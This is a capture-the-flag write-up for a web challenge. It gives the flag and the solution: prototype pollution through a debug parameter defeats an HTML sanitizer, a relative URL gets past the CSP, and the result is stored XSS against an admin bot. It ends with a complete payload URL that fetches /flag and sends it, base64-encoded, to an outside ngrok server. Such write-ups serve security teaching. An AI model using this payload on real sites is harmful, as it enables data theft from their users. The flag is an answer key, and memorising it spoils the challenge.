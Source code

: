 # Flag

`shaktictf{_3nv120nm3n741_ju571c3_}`

# Solution

 - You need to send the admin a link via the admin bot and use XSS to access the `/flag` route and send it to your own server
 - You'll need to setup a server to receive the result. For example, combine an [http server](https://github.com/zoeyg/sec/blob/master/tools/simple-http-server.js) that will accept requests with ngrok.com to expose it externally
 - Use prototype pollution and the debug functionality to bypass the HTML sanitizer, you'll then hit the CSP
 - To get around the CSP use a relative url
 - An example url to send the admin:

```
https://superfund.2r.is/x/..%2fadmin/index.html?debug={"__proto__":{"allowedAttrs":["src","onerror"]},"user":{"name":"<img+src=x+onerror=fetch('/flag').then(r=%26gt;r.text()).then(d=%26gt;fetch('https://5103fe977eae.ngrok.io/b64/'%2Bbtoa(d))) />"}}&id=x
 ```
